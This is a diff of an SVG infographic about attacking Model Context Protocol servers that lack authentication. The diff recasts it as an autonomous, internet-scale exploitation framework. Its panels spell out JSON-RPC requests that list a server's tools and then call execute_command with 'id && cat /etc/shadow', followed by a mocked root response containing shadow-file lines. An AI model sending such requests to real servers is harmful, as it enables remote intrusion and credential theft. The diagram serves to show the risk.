

- <svg xmlns="http://www.w3.org/2000/svg" width="1200" height="640" viewBox="0 0 1200 640">
+ <svg xmlns="http://www.w3.org/2000/svg" width="1200" height="700" viewBox="0 0 1200 700">
  <defs>
+     <pattern id="nodes" x="0" y="0" width="25" height="25" patternUnits="userSpaceOnUse">
+       <rect x="2" y="2" width="20" height="20" fill="none" stroke="#21262d" stroke-width="1.5" opacity="0.4" />
+     </pattern>
    <marker id="arr" markerWidth="10" markerHeight="7" refX="9" refY="3.5" orient="auto">
      <polygon points="0 0, 10 3.5, 0 7" fill="#8b949e" />
    </marker>
    <marker id="arr-red" markerWidth="10" markerHeight="7" refX="9" refY="3.5" orient="auto">
      <polygon points="0 0, 10 3.5, 0 7" fill="#ff4444" />
    </marker>
    <marker id="arr-blue" markerWidth="10" markerHeight="7" refX="9" refY="3.5" orient="auto">
      <polygon points="0 0, 10 3.5, 0 7" fill="#3b82f6" />
    </marker>
    <marker id="arr-orange" markerWidth="10" markerHeight="7" refX="9" refY="3.5" orient="auto">
      <polygon points="0 0, 10 3.5, 0 7" fill="#f97316" />
    </marker>
    <marker id="arr-green" markerWidth="10" markerHeight="7" refX="9" refY="3.5" orient="auto">
      <polygon points="0 0, 10 3.5, 0 7" fill="#22c55e" />
    </marker>
    <marker id="arr-yellow" markerWidth="10" markerHeight="7" refX="9" refY="3.5" orient="auto">
      <polygon points="0 0, 10 3.5, 0 7" fill="#eab308" />
    </marker>
    <marker id="arr-purple" markerWidth="10" markerHeight="7" refX="9" refY="3.5" orient="auto">
      <polygon points="0 0, 10 3.5, 0 7" fill="#a855f7" />
    </marker>
  </defs>
  <rect width="1200" height="640" fill="#0a0c10" />
-   <text x="600" y="36" font-family="-apple-system,BlinkMacSystemFont,'Segoe UI',sans-serif" font-size="18" font-weight="bold" fill="#ff4444" text-anchor="middle">MCP SERVER EXPLOITATION — UNAUTHENTICATED RCE</text>
-   <text x="600" y="58" font-family="-apple-system,BlinkMacSystemFont,'Segoe UI',sans-serif" font-size="13" font-weight="normal" fill="#8b949e" text-anchor="middle">Model Context Protocol servers exposing dangerous tools without authentication</text>
+   <rect width="1200" height="80" fill="url(#nodes)" opacity="0.6" />
+   <rect width="1200" height="80" fill="#0a0c10" opacity="0.9" />
+   <text x="600" y="30" font-family="-apple-system,BlinkMacSystemFont,'Segoe UI',sans-serif" font-size="12" font-weight="bold" fill="#f97316" text-anchor="middle">CAPABILITY #1: GENERIC MCP EXPLOITATION FRAMEWORK</text>
+   <text x="600" y="50" font-family="-apple-system,BlinkMacSystemFont,'Segoe UI',sans-serif" font-size="18" font-weight="bold" fill="#ff4444" text-anchor="middle">FIRST KNOWN AUTONOMOUS MCP CLIENT — NO SERVER KNOWLEDGE REQUIRED</text>
+   <text x="600" y="72" font-family="-apple-system,BlinkMacSystemFont,'Segoe UI',sans-serif" font-size="13" font-weight="normal" fill="#8b949e" text-anchor="middle">Auto-discovers tool catalogs, classifies by dangerousness, executes autonomously at internet scale</text>
  <rect x="24" y="74" width="558" height="520" rx="8" fill="#0f1117" stroke="#21262d" stroke-width="1.5" opacity="1.0" />
  <text x="303" y="100" font-family="-apple-system,BlinkMacSystemFont,'Segoe UI',sans-serif" font-size="14" font-weight="bold" fill="#e6edf3" text-anchor="middle">TOOL ENUMERATION</text>
  <text x="303" y="118" font-family="-apple-system,BlinkMacSystemFont,'Segoe UI',sans-serif" font-size="12" font-weight="normal" fill="#8b949e" text-anchor="middle">Discover available capabilities</text>
  <rect x="44" y="130" width="518" height="110" rx="6" fill="#161b22" stroke="#484f58" stroke-width="1" opacity="1.0" />
  <text x="303" y="150" font-family="-apple-system,BlinkMacSystemFont,'Segoe UI',sans-serif" font-size="11" font-weight="bold" fill="#8b949e" text-anchor="middle">HTTP REQUEST</text>
  <text x="54" y="166" font-family="'Courier New',Courier,monospace" font-size="11" fill="#3b82f6" text-anchor="start">POST /mcp HTTP/1.1</text>
  <text x="54" y="181" font-family="'Courier New',Courier,monospace" font-size="11" fill="#3b82f6" text-anchor="start">Host: target-server:8080</text>
  <text x="54" y="196" font-family="'Courier New',Courier,monospace" font-size="11" fill="#3b82f6" text-anchor="start">Content-Type: application/json</text>
  <text x="54" y="211" font-family="'Courier New',Courier,monospace" font-size="11" fill="#8b949e" text-anchor="start" />
  <text x="54" y="226" font-family="'Courier New',Courier,monospace" font-size="11" fill="#e6edf3" text-anchor="start">{"jsonrpc":"2.0","method":"tools/list","id":1}</text>
  <line x1="303" y1="242" x2="303" y2="270" stroke="#3b82f6" stroke-width="2" marker-end="url(#arr-blue)" />
  <rect x="44" y="272" width="518" height="270" rx="6" fill="#161b22" stroke="#484f58" stroke-width="1" opacity="1.0" />
  <text x="303" y="292" font-family="-apple-system,BlinkMacSystemFont,'Segoe UI',sans-serif" font-size="12" font-weight="bold" fill="#e6edf3" text-anchor="middle">RESPONSE — 14 TOOLS FOUND</text>
  <rect x="50" y="306" width="504" height="24" rx="2" fill="#200a0a" stroke="none" stroke-width="1" opacity="1.0" />
  <text x="58" y="322" font-family="'Courier New',Courier,monospace" font-size="12" fill="#ff4444" text-anchor="start">execute_command</text>
  <rect x="493" y="308" width="47" height="18" rx="3" fill="#ff4444" stroke="none" stroke-width="1" opacity="1.0" />
  <text x="517" y="321" font-family="-apple-system,BlinkMacSystemFont,'Segoe UI',sans-serif" font-size="9" font-weight="bold" fill="#fff" text-anchor="middle">[RCE]</text>
  <rect x="50" y="335" width="504" height="24" rx="2" fill="#200a0a" stroke="none" stroke-width="1" opacity="1.0" />
  <text x="58" y="351" font-family="'Courier New',Courier,monospace" font-size="12" fill="#ff4444" text-anchor="start">execute_script</text>
  <rect x="493" y="337" width="47" height="18" rx="3" fill="#ff4444" stroke="none" stroke-width="1" opacity="1.0" />
  <text x="517" y="350" font-family="-apple-system,BlinkMacSystemFont,'Segoe UI',sans-serif" font-size="9" font-weight="bold" fill="#fff" text-anchor="middle">[RCE]</text>
  <rect x="50" y="364" width="504" height="24" rx="2" fill="#161b22" stroke="none" stroke-width="1" opacity="1.0" />
  <text x="58" y="380" font-family="'Courier New',Courier,monospace" font-size="12" fill="#f97316" text-anchor="start">read_file</text>
  <rect x="451" y="366" width="89" height="18" rx="3" fill="#f97316" stroke="none" stroke-width="1" opacity="1.0" />
  <text x="496" y="379" font-family="-apple-system,BlinkMacSystemFont,'Segoe UI',sans-serif" font-size="9" font-weight="bold" fill="#fff" text-anchor="middle">[FILE READ]</text>
  <rect x="50" y="393" width="504" height="24" rx="2" fill="#161b22" stroke="none" stroke-width="1" opacity="1.0" />
  <text x="58" y="409" font-family="'Courier New',Courier,monospace" font-size="12" fill="#f97316" text-anchor="start">write_file</text>
  <rect x="444" y="395" width="96" height="18" rx="3" fill="#f97316" stroke="none" stroke-width="1" opacity="1.0" />
  <text x="492" y="408" font-family="-apple-system,BlinkMacSystemFont,'Segoe UI',sans-serif" font-size="9" font-weight="bold" fill="#fff" text-anchor="middle">[FILE WRITE]</text>
  <rect x="50" y="422" width="504" height="24" rx="2" fill="#161b22" stroke="none" stroke-width="1" opacity="1.0" />
  <text x="58" y="438" font-family="'Courier New',Courier,monospace" font-size="12" fill="#8b949e" text-anchor="start">list_directory</text>
  <rect x="50" y="451" width="504" height="24" rx="2" fill="#161b22" stroke="none" stroke-width="1" opacity="1.0" />
  <text x="58" y="467" font-family="'Courier New',Courier,monospace" font-size="12" fill="#8b949e" text-anchor="start">get_environment</text>
  <rect x="50" y="480" width="504" height="24" rx="2" fill="#161b22" stroke="none" stroke-width="1" opacity="1.0" />
  <text x="58" y="496" font-family="'Courier New',Courier,monospace" font-size="12" fill="#f97316" text-anchor="start">network_request</text>
  <rect x="486" y="482" width="54" height="18" rx="3" fill="#f97316" stroke="none" stroke-width="1" opacity="1.0" />
  <text x="513" y="495" font-family="-apple-system,BlinkMacSystemFont,'Segoe UI',sans-serif" font-size="9" font-weight="bold" fill="#fff" text-anchor="middle">[SSRF]</text>
  <rect x="50" y="509" width="504" height="24" rx="2" fill="#161b22" stroke="none" stroke-width="1" opacity="1.0" />
  <text x="58" y="525" font-family="'Courier New',Courier,monospace" font-size="12" fill="#f97316" text-anchor="start">sql_query</text>
  <rect x="486" y="511" width="54" height="18" rx="3" fill="#f97316" stroke="none" stroke-width="1" opacity="1.0" />
  <text x="513" y="524" font-family="-apple-system,BlinkMacSystemFont,'Segoe UI',sans-serif" font-size="9" font-weight="bold" fill="#fff" text-anchor="middle">[SQLi]</text>
  <rect x="618" y="74" width="558" height="520" rx="8" fill="#0f1117" stroke="#ff4444" stroke-width="2" opacity="1.0" />
  <text x="897" y="100" font-family="-apple-system,BlinkMacSystemFont,'Segoe UI',sans-serif" font-size="14" font-weight="bold" fill="#ff4444" text-anchor="middle">EXPLOITATION</text>
  <text x="897" y="118" font-family="-apple-system,BlinkMacSystemFont,'Segoe UI',sans-serif" font-size="12" font-weight="normal" fill="#8b949e" text-anchor="middle">Root shell in one request</text>
  <rect x="638" y="130" width="518" height="140" rx="6" fill="#161b22" stroke="#b91c1c" stroke-width="1" opacity="1.0" />
  <text x="897" y="150" font-family="-apple-system,BlinkMacSystemFont,'Segoe UI',sans-serif" font-size="11" font-weight="bold" fill="#ff4444" text-anchor="middle">HTTP REQUEST — NO AUTH HEADER</text>
  <text x="648" y="166" font-family="'Courier New',Courier,monospace" font-size="11" fill="#3b82f6" text-anchor="start">POST /mcp HTTP/1.1</text>
  <text x="648" y="181" font-family="'Courier New',Courier,monospace" font-size="11" fill="#3b82f6" text-anchor="start">Host: target-server:8080</text>
  <text x="648" y="196" font-family="'Courier New',Courier,monospace" font-size="11" fill="#8b949e" text-anchor="start">Content-Type: application/json</text>
  <text x="648" y="211" font-family="'Courier New',Courier,monospace" font-size="11" fill="#8b949e" text-anchor="start" />
  <text x="648" y="226" font-family="'Courier New',Courier,monospace" font-size="11" fill="#8b949e" text-anchor="start">{"jsonrpc":"2.0","method":"tools/call","id":2,</text>
  <text x="648" y="241" font-family="'Courier New',Courier,monospace" font-size="11" fill="#8b949e" text-anchor="start"> "params":{"name":"execute_command",</text>
  <text x="648" y="256" font-family="'Courier New',Courier,monospace" font-size="11" fill="#8b949e" text-anchor="start">  "arguments":{"command":</text>
  <text x="648" y="271" font-family="'Courier New',Courier,monospace" font-size="11" fill="#ff4444" text-anchor="start">   "id &amp;&amp; cat /etc/shadow"}}}</text>
  <line x1="897" y1="272" x2="897" y2="300" stroke="#ff4444" stroke-width="2" marker-end="url(#arr-red)" />
  <rect x="638" y="302" width="518" height="180" rx="6" fill="#150505" stroke="#ff4444" stroke-width="2" opacity="1.0" />
  <text x="897" y="322" font-family="-apple-system,BlinkMacSystemFont,'Segoe UI',sans-serif" font-size="12" font-weight="bold" fill="#ff4444" text-anchor="middle">RESPONSE — IMMEDIATE ROOT ACCESS</text>
  <text x="648" y="340" font-family="'Courier New',Courier,monospace" font-size="11" fill="#8b949e" text-anchor="start">{"result":{"content":[{"type":"text",</text>
  <text x="648" y="362" font-family="'Courier New',Courier,monospace" font-size="11" fill="#ff4444" text-anchor="start"> "text":"uid=0(root) gid=0(root) groups=0(root)\n</text>
  <text x="648" y="384" font-family="'Courier New',Courier,monospace" font-size="11" fill="#ff4444" text-anchor="start">  root:$6$rounds=656000$salt$HASH:19720:0:99999:7:::</text>
  <text x="648" y="406" font-family="'Courier New',Courier,monospace" font-size="11" fill="#8b949e" text-anchor="start">  daemon:*:19600:0:99999:7:::</text>
  <text x="648" y="428" font-family="'Courier New',Courier,monospace" font-size="11" fill="#8b949e" text-anchor="start">  [... 47 more accounts redacted ...]</text>
  <text x="648" y="450" font-family="'Courier New',Courier,monospace" font-size="11" fill="#8b949e" text-anchor="start">"}]}}</text>
